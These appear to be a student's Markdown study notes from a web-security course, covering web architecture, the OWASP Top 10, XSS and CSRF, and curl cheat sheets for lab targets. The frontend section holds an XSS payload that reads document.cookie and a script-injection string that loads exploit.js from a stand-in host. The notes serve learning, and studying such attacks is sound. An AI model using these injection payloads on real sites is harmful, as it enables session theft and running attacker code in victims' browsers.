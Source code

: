 
# 🌐 Web Application Layout

### 🧩 Categories
-   **Web Application Infrastructure**
    -   `Client-Server`
    -   `One Server`
    -   `Many Servers - One Database`
    -   `Many Servers - Many Databases`
-   **Web Application Components**
    1.  `Client`
    2.  `Server`
        -   Webserver
        -   Web Application Logic
        -   Database
    3.  `Services` (Microservices)
        -   3rd Party Integrations
        -   Web Application Integrations
    4.  `Functions` (Serverless)
-   **Web Application Architecture (3 Layers)**
    -   🖥️ Presentation Layer: Frontend
    -   ⚙️ Application Layer: Backend
    -   💾 Data Layer: Database
    
# 🧱 [OWASP Top 10](https://owasp.org/www-project-top-ten/) Vulnerabilities

1.  🚫 Broken Access Control
2.  🔐 Cryptographic Failures
3.  💉 Injection
4.  ⚠️ Insecure Design
5.  ⚙️ Security Misconfiguration
6.  🧩 Vulnerable & Outdated Components
7.  🧍 Identification & Authentication Failures
8.  🧱 Software & Data Integrity Failures
9.  📜 Security Logging & Monitoring Failures
10.  🌐 Server-Side Request Forgery (SSRF)


# 🎨 Frontend Vulnerabilities
## 💥 Cross-Site Scripting (XSS)

-   **3 types:**  `Reflected`, `Stored`, `DOM`
```javascript
#"><img src=/ onerror=alert(document.cookie)>
```
## Cross-Site Request Forgery (CSRF)
- caused by unfiltered user input
- **common `CSRF` attack:** 
	- gain admin priv
	- craft a `JavaScript` payload that automatically changes the victim's password to the value set by the attacker.
	 
```html
"><script src=//www.example.com/exploit.js></script>
```
## Deobfuscation Websites

- [JS Console](https://jsconsole.com)
- [Prettier](https://prettier.io/playground/)
- [Beautifier](https://beautifier.io/)
- [JSNice](http://www.jsnice.org/)
# BackEnd Vulnerabilities
- Broken Auth/Access Control (Bypass login)
- Malicious File Upload
- Command Injection
- SQL Injection (SQLi)
- CVEs

# cURL
## curl
curl url					
**option** | **desc**
|--|--|
`-o` | save in a file 
`-s` | for silent mode
`-k` |skip the certificate check
`-v` | print both the request and response
`-I` |	display response header
`-i` 	|	display response header and body
`-A` | to set our User-Agent from header
`-u admin:admin url` | 
`-H 'Authorization: Basic YWRtaW46YWRtaW4='` |
`-X POST -d 'username=admin&password=admin'` | 							-X for method and -d for data
`-L` | follow redirect link
`-b 'PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1'` | set cookies 
`-s` | jq |for good json structer
	
- post ex: `curl -X POST -d '{"search":"f"}' -b 'PHPSESSID=9501nu5f74kqgohjh4ogu6debb' -H 'Content-Type: application/json' http://94.237.51.163:42040/search.php`
 ## HTB CHEAT SHEET
**Command** | **Description**
|--|--|
`curl -h` | cURL help menu
`curl inlanefreight.com` | Basic GET request
`curl -s -O inlanefreight.com/index.html` | Download file
`curl -k https://inlanefreight.com` | Skip HTTPS (SSL) certificate validation
`curl inlanefreight.com -v` | Print full HTTP request/response details
`curl -I https://www.inlanefreight.com` | Send HEAD request (only prints response headers)
`curl -i https://www.inlanefreight.com` | Print response headers and response body 
`curl https://www.inlanefreight.com -A 'Mozilla/5.0'` | Set User-Agent header
`curl -u admin:admin http://<SERVER_IP>:<PORT>/` | Set HTTP basic authorization credentials
`curl http://admin:admin@<SERVER_IP>:<PORT>/` | Pass HTTP basic authorization credentials in the URL
`curl -H 'Authorization: Basic YWRtaW46YWRtaW4=' http://<SERVER_IP>:<PORT>/` | Set request header
`curl 'http://<SERVER_IP>:<PORT>/search.php?search=le'` | Pass GET parameters
`curl -X POST -d 'username=admin&password=admin' http://<SERVER_IP>:<PORT>/` | Send POST request with POST data
`curl -b 'PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1' http://<SERVER_IP>:<PORT>/` | Set request cookies
`curl -X POST -d '{"search":"london"}' -H 'Content-Type: application/json' http://<SERVER_IP>:<PORT>/search.php` | Send POST request with JSON data

## APIs

**Command** | **Description**
|--|--|
`curl http://<SERVER_IP>:<PORT>/api.php/city/london` | Read entry
`curl -s http://<SERVER_IP>:<PORT>/api.php/city/ | jq` | Read all entries
`curl -X POST http://<SERVER_IP>:<PORT>/api.php/city/ -d '{"city_name":"HTB_City", "country_name":"HTB"}' -H 'Content-Type: application/json'`|Create (add) entry
`curl -X PUT http://<SERVER_IP>:<PORT>/api.php/city/london -d '{"city_name":"New_HTB_City", "country_name":"HTB"}' -H 'Content-Type: application/json'` | Update (modify) entry
`curl -X DELETE http://<SERVER_IP>:<PORT>/api.php/city/New_HTB_City` | Delete entry

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTgyNDA0MTAyMCwtMTQ0NDQ5Mjc2NCwtMT
c0OTg4ODYxNSwxOTY1ODU2ODYyXX0=
-->